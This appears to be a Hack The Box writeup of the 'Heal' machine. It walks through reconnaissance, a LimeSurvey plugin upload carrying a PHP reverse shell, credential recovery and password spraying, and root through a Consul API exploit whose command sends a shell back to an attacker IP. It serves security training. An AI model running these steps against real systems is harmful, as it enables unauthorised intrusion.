 ```yaml
---
title: Heal - HTB
date: 2025-04-26 14:00:00 +0200
categories: HTB
tags: 
toc: true
comments: true
image: ./assets/img/attachements/heal-1.png
imageNameKey: heal
---
```

Hey folks, Its me again with a new writeup, this is 3/1000 the journey is bit long but we are up
# Recon
**First thing, as usual, is to perform scanning.**  
I did a quick scan first (since a full scan consumes more time).  
We will work with what we find from the quick scan.
```bash
 nmap 10.10.11.46 -F -Pn -T5
```
![w](/assets/img/attachments/heal-2.png)

I couldn't open the webpage because the IP address wasn't resolved. 
```bash
─$ nslookup 10.10.11.46                            
** server can't find 46.11.10.10.in-addr.arpa: NXDOMAIN

```
 So i run nmap scan on port 80
 ```bash
 $ nmap 10.10.11.46 -sC -sV -p80          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-26 13:28 EDT
Nmap scan report for 10.10.11.46
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.22 seconds

```
From here I got the domain name http://heal.htb/, lets add it to /etc/hosts

![w](/assets/img/attachments/heal-3.png)

This is how the webpage looked. I tried to register but got an error saying "something went wrong," so I performed content discovery to find hidden directories.
```bash
ffuf -u http://heal.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2

dirb http://heal.htb

```
Both attempts returned nothing, and the website responded with a 503 error. I went back to the main page and tried to register again but still couldn’t. At this point, I fired up Burp Suite to start analyzing the requests I was sending — maybe I could spot an injection point.

![w](/assets/img/attachments/heal-4.png)

I think that's why i couldn't register or login with default credentials, or even test for SQLi.
After adding this subdomain to /etc/hosts. I signed up.
# Initial Access
I tried command injection at input fields, but didnt work, BUT survey button directed us to this subdomain:

![w](/assets/img/attachments/heal-7.png)

which is LimeSurvey service, I couldn't get the exact version of the used service. but from the printed message we knew the administrator username **ralph**.

![w](/assets/img/attachments/heal-15.png)
Found exploit, but i don't have password for any account, and default credentials didn't work. Nothing else to do here.
Going back to burp requests:

![w](/assets/img/attachments/heal-8.png)
![w](/assets/img/attachments/heal-9.png)

Couldn't find interesting files, But at api.heal.htb found out page was written with ruby
![w](/assets/img/attachments/heal-10.png)

![w](/assets/img/attachments/heal-11.png)

Lets check those:

![w](/assets/img/attachments/heal-12.png)

Here we found ralph hashed password

![w](/assets/img/attachments/heal-13.png)
 
 Got the password, didn't work for ssh but worked for lime survey, Going back to the found exploit
 ![w](/assets/img/attachments/heal-16.png)
```bash
zip access.zip exploit.py config.xml php-rev.php 
```
![w](/assets/img/attachments/heal-17.png)

![w](/assets/img/attachments/heal-18.png)

Setting listener, then open http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php 
![w](/assets/img/attachments/heal-19.png)
![w](/assets/img/attachments/heal-23.png)
![w](/assets/img/attachments/heal-22.png)
i used this command to find config directory
```bash
find / -type d -name "config" 2>/dev/null

```
In config.php

![w](/assets/img/attachments/heal-24.png)
Did password spraying, and it worked with ron

![w](/assets/img/attachments/heal-25.png)
![w](/assets/img/attachments/heal-26.png)
# Privilege Escalation
After running linpeas 
![w](/assets/img/attachments/heal-27.png)
port 3000 and 3001 are running the same webpage 
![w](/assets/img/attachments/heal-28.png)

port 8300 didn't accept our connection while 8500 did.

![w](/assets/img/attachments/heal-29.png)

did curl to see what's version is running
```bash
curl http://127.0.0.1:8500/ui/
```
![w](/assets/img/attachments/heal-30.png)
![w](/assets/img/attachments/heal-31.png)

There is exploit for this version.
![w](/assets/img/attachments/heal-34.png)

Means no need for token parameter in this exploit

```bash
python3 exploit.py 127.0.0.1 8500 10.10.16.53 4444 ""
```
![w](/assets/img/attachments/heal-32.png)

![w](/assets/img/attachments/heal-33.png)
And Rooted!
In conclusion, exploiting Consul's unprotected API on port 8500 allowed root access through a malicious service registration, emphasizing the necessity of strict ACL enforcement and vigilant system monitoring to thwart privilege escalation.
Catch you later!
